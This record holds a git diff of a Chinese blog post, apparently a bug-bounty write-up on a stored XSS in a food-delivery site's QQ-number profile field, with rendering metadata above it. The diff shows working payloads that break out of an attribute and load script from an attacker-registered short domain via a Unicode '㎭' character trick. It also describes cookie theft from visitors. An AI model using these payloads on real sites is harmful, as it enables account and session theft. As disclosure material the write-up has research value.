

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md, in a window 1280 px wide and 1400 px high, scrolled down 454 px. Shown: the whole window at 94% size, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md

````diff
--- a/_posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md
+++ b/_posts/2023-06-19-SRC实战 浅挖国内某大型外卖厂商XSS小洞.md
@@ -19,7 +19,7 @@ published: true
 在某子域下的某站点内的个人信息处，发现qq号信息修改栏竟然没有经过过滤
 于是仔细钻研qq号信息这个点，发现了以下规律
 
-1、qq号信息处可以填任意utf-8码字符，但是返回的网页会转义<>、()等字符，不转义"",'',/
+1、qq号信息处可以填任意utf-8码字符，但是返回的网页会转义()等字符，不转义"",'',/
 2、qq号可作为公开信息展示在个人主页上，非常方便构造储存型xss
 3、qq号输入处处于某标签的value中
 4、qq号限制20长度字符，并且是后端硬校验，常规方法无法突破
@@ -28,13 +28,13 @@ published: true
 于是可乘之机就来了
 既然qq号处是处于某标签的value中，那么就无需<>号了，直接先""绕过，尝试构造新的标签参数
 ```js
-  " script="
+  "><script src="
 ```
-成功，并且没有任何的过滤
+成功，并且没有任何的过滤，只是网页排版变得混乱了很多
 
 直接改返回包，添加函数，试试能否执行alert函数(由于括号被绕过，所以暂时用burp改返回包判断一下)
 ```js
-  " script="alert(1)
+  "><script src="alert(1)
 ```
 成功弹窗
 说明此处可以运行script
@@ -44,26 +44,54 @@ published: true
 通过人脑极限压缩大法，我们最终将执行外部url的payload极限压缩到15个字符
 payload：
 ```js
-  " script=http//[填写域名]
+  "<script src=//[填写域名]
 ```
-总长度为15，我们填写的域名+路径不能超过5字符
+该payload生成出来的网页简直是一坨稀饭，不过经过验证可以执行域名包含的js代码(不过该处填写的域名解析出的网站必须是跟随主站协议，比如像主站用https该网站就得用https)
+
+该payload除开域名部分总长度为15，我们填写的域名+路径不能超过5字符
 当时就想到了短域名等方案，但都太长了
 然后想到干脆注册个域名算了，但又发现这种5字符长度的域名都太贵了
 
 ~~经过我苦苦思考~~，终于发现了一个特别隐蔽的规则能利用：utf-8编码字母符号
 
 众所周知，utf-8字符集里有各种各样的字母符号，比如像：
-```
-™  #8482号字符
-℡  #8481号字符
-㎭  #
-```
+<table style="border:1px solid #b5e853;border-collapse: collapse" border="1">
+  <tr>
+    <td>字母符号</td>
+    <td>编码</td>
+  </tr>
+  <tr>
+    <td>™</td>
+    <td>8482号</td>
+  </tr>
+  <tr>
+    <td>℡</td>
+    <td>8481号</td>
+  </tr>
+  <tr>
+    <td>㎭</td>
+    <td></td>
+  </tr>
+</table>
 但绝大多数人不知道的是，在浏览器域名解析这些字母符号时，会自动按以下格式转换成英文字母：
-```
-™  tm
-℡  tel
-㎭  rad
-```
+<table style="border:1px solid #b5e853;border-collapse: collapse" border="1">
+  <tr>
+    <td>字母符号</td>
+    <td>对应英文字母</td>
+  </tr>
+  <tr>
+    <td>™</td>
+    <td>tm</td>
+  </tr>
+  <tr>
+    <td>℡</td>
+    <td>tel</td>
+  </tr>
+  <tr>
+    <td>㎭</td>
+    <td>rad</td>
+  </tr>
+</table>
 这些字母符号无论解析出来的英文有多长，都仅占用1个字符宽度
 
 注册一个域名radq.cc，无论是使用㎭q.cc还是radq.cc，都能顺利C类解析到同一源ip
@@ -74,7 +102,7 @@ payload：
 注册了radq.cc，在该域名下挂js脚本，顺利注入
 final payload:
 ```js
-  " script=http//㎭q.cc
+  "<script src=//㎭q.cc
 ```
 
 ~~最后顺利注入，挂document.cookie，只要进我的个人主页，就能获取到cookie、登陆设备、账号等敏感信息~~
````
